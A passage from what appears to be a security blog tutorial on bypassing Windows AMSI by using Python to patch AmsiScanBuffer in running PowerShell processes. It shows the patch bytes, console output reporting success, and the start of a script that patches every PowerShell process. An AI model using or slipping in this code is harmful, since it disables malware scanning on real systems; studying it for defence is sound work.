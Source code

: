 The relevant updated part of the script is now:

```python
amsiScanBufferAddress = readBuffer(process_handle, amsiDllBaseAddress, AmsiScanBuffer)
print(f'[+] Address of AmsiScanBuffer found at {hex(amsiScanBufferAddress)}')

patchPayload = (
    b'\x29\xc0' +           # xor eax,eax
    b'\xc3'                 # ret
)

if writeBuffer(process_handle, amsiScanBufferAddress, patchPayload):
    print(f'[+] Success patching AmsiScanBuffer in PID {pid}')
```

Let's check it:

```powershell
PS C:\Users\aroldan> python3 .\Documents\amsibypass.py
[+] Got process handle of PID powershell at 18760: 0x410
[+] Found base address of amsi.dll: 0x7ffd4c270000
[+] Address of AmsiScanBuffer found at 0x7ffd4c278260
[+] Success patching AmsiScanBuffer in PID 18760
```

Great!

### Profit

Now, let's check how it works:

<div class="imgblock">

![AMSI in action](https://res.cloudinary.com/fluid-attacks/image/upload/v1653763579/blog/amsi-bypass-python/success1.png)

</div>

Great! `AMSI` successfully bypassed again. This
time from a whole different process using
cross-process memory patching.

I rearranged the script adding some functions and
the final script is this:

```python
#!/usr/bin/env python3
#
# Script to dynamically path AmsiScanBuffer on every powershell process running
# that belongs to current user, or all processes if running as admin
#
# Author: Andres Roldan <aroldan@fluidattacks.com>
# LinkedIn: https://www.linkedin.com/in/andres-roldan/
# Twitter: https://twitter.com/andresroldan


import psutil
import sys
from ctypes import *


KERNEL32 = windll.kernel32
PROCESS_ACCESS = (
    0x000F0000 |        # STANDARD_RIGHTS_REQUIRED
    0x00100000 |        # SYNCHRONIZE
    0xFFFF
)
PAGE_READWRITE = 0x40


```